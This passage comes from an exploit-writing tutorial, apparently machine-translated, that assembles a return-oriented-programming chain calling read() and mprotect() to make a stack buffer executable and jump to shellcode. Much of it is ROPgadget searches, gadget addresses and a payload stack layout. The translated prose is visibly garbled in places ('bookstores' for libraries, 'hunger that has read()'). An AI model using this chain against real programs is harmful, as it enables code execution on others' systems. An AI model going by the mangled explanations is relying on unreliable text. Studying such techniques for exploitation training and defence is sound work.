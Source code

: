 Let’s see what we introduce to mprotect(). Knowing that our buffer falls near 0xffffd210, the page corresponding memory starts at 0xffffd000 (`0xffffd210 & ~(0x00001000-1)` \[0x1000 = 409610\])

0xf7eb9240 0x........       0xffffd000 0x00010000 0x00000007 0x........  0xffffd210 0x........
&mprotect  &pop;pop;pop;ret                                  pop eax;ret &shellcode &call eax
                                                             or equals.

Eax ended up placing in the direction of shellcode (&buf) to end once a `call eax`. Given that the second phase of the payload (mprotect() + jump to shellcode) is 32 bytes, compared to the call to read(), it is enough that edx  >= 32, as much hunger that has read() and want to eat 4160342096 bytes (looks like a random number), we will only spend 32 bytes, and only going to read the bytes that you spend. It turns out that at the point where you took the helm of the program EDX worth 0xf7f9c850 (now the number is better understood before), for being a little greater than 32 (a little), So, let’s start looking the gadgets we need. Remember being careful not to change ourselves the EBX, for something that they made us …

Do we need a `xor eax, eax`? ROPgadget gives us (by the way, the `ldd` command is indispensable to know the libraries that a program uses, and therefore what bookstores can find gadgets, and also to know which direction you will be charged for that process).  
`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib/ld-linux.so.2 --offset 0xf7fd6000 --badbytes 00 | grep "xor eax, eax"  
[...]  
0xf7fdbbd0 : xor eax, eax ; ret`

What need a `inc eax`?  
`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib/ld-linux.so.2 --offset 0xf7fd6000 --badbytes 00 | grep "inc eax"  
[...]  
0xf7fd6cb3 : add al, 0x83 ; inc eax ; add al, 1 ; ret`  
I bring as plus the `add al, 1,` which has fallen me well.

You want `pop ecx`? Beware that if I will not find it on one side, another in another.  
`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --offset 0xf7dc4000 --badbytes 00 | grep "pop ecx"  
[...]  
0xf7e01e03 : pop ecx ; ret`

—I bet an `int 0x80 ; ret` you don’t do it.  
—Not?  
\[…\]  
—Come on  
`$ python2 ROPgadget/ROPgadget.py --binary /lib/ld-linux.so.2 --badbytes 00 --offset 0xf7fd6000 --opcode "cd80c3"  
[...]  
0xf7fd6c30 : cd80c3`

We have everything for the read(). Now for the ingredients for the second half.

—¡A `&mprotect` FOR TABLE 2!  
—Ear kitchen.  
`$1 = {<text variable, no debug info>} 0xf7eb9240 <mprotect>`

—A see the shopping list…  `pop;pop;pop;ret`.  
`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --offset 0xf7dc4000 --badbytes 00 --only "pop|pop|pop|ret"  
[...]  
0xf7e05fdb : pop ebx ; pop esi ; pop ebp ; ret`  
\[Now we no longer care ebx modify the syscall read() is already done.\]
